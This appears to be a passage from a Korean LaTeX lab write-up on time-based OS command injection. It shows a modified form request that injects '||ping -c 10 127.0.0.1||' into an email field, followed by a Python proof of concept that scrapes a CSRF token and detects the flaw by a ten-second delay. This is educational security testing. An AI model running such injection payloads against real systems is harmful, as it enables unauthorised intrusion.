 \documentclass{article}
\begin{document}
\begin{description}
\begin{enumerate}
\begin{lstlisting}[label={lst:modified-request},caption={변동된 요청 (modified request)}]
      csrf=0Fdn9Kp5NSKWRNwvp9xiuFSt0gJ5DaXU&name=potato&email=potato||ping+-c+10+127.0.0.1||&subject=potato&message=potato
      \end{lstlisting}
      \item 수정된 요청을 서버로 전송 및 결과 확인
      \begin{figure}[htbp]
      \centering
      \includegraphics[width=0.7\textwidth]{../figure/figure4.png}
      \caption{ping 명령의 결과}
      \label{fig:ping-result}
      \end{figure}

    \end{enumerate}

    \newpage
    \item[\textbf{Python 풀이}:] \leavevmode\par
    다음 파이썬 스크립트는 피드백 폼의 \texttt{email} 필드에 시간 지연을 유발하는 페이로드를 삽입하여, 서버가 해당 입력을 쉘로 해석하는지(시간 기반 명령어 삽입 취약성)를 확인하는 PoC입니다. 
    스크립트는 먼저 피드백 페이지에서 CSRF 토큰을 추출한 뒤, `ping -c 10 localhost` 명령을 포함한 값을 전송하고 응답 지연(10초)을 기준으로 취약 여부를 판별합니다. 
    모든 요청은 로컬 프록시(예: Burp Suite)로 전달되도록 설정되어 있어 트래픽 분석이 가능합니다.

    \begin{lstlisting}[label={lst:modified-request},caption={Python script for problem 2}, showspaces=false,showstringspaces=false]
    import requests
    import sys
    import urllib3
    from bs4 import BeautifulSoup

    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

    proxies = { 'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080' }

    def get_crsf(s, url):
        feedback_path = "/feedback"
        r = s.get(url + feedback_path, verify=False)
        soup = BeautifulSoup(r.text, 'html.parser')
        csrf = soup.find('input')['value']
        return csrf

    def check_command_injection(s, url):
        submit_feedback_path = "/feedback/submit"
        command_injection = "test@test.com; ping -c 10 localhost #"
        csrf_token = get_crsf(s, url)   # Retrieve CSRF in order to send a valid request
        data = { 'csrf': csrf_token, 'name': "test", 'email': command_injection,
                'subject': "testing", 'message': "This is a test"}
        res = s.post(url + submit_feedback_path, data=data, verify=False, proxies=proxies)
        if (res.elapsed.total_seconds() >= 10):
            print("(+) Email field vulnerable to time-based command injection")
        else:
            print("(-) Email field not vulnerable to time-based command injection")


\end{lstlisting}
\end{description}
\end{document}

